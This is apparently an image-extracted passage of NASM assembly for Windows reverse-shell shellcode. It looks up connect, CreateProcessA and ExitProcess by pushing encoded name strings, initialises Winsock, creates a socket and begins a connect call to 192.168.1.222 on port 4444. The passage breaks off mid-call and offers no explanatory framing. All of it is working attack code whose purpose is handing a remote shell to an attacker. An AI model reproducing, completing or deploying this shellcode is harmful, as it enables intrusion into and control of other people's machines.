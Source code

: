 ```nasm
push 0x6e6e6f63
push esp
push ecx
call edi

mov [esi + 0x8], eax                  ; esi at offset 0x8 will now hold the address of connect

; use GetProcAddress to get the location of CreateProcessA
push 0x61614173 
sub word [esp + 0x2], 0x6161
push 0x7365636f
push 0x72506574
push 0x61657243
push esp
push ebx
call edi

mov [esi + 0xc], eax                   ; esi at offset 0xc will now hold the address of CreateProcessA

; use GetProcAddress to get the location of ExitProcess
push 0x61737365
sub dword [esp + 0x3], 0x61
push 0x636f7250
push 0x74697845
push esp
push ebx
call edi 

mov [esi + 0x10], eax                  ; esi at offset 0x10 will now hold the address of ExitProcess

; call WSAStartup
xor edx, edx
mov dx, 0x0190
sub esp, edx
push esp
push edx
call dword [esi]

; call WSASocketA
push eax                              ; still null from our return code of WSAStartup :)
push eax
push eax
xor edx, edx
mov dl, 0x6
push edx
inc eax
push eax
inc eax
push eax
call dword [esi + 0x4]



; call connect
push 0xde01a8c0                      ; sin_addr set to 192.168.1.222
push word 0x5c11                     ; port = 4444
xor ebx, ebx
add bl, 0x2
push word bx
mov edx, esp
push byte 16
```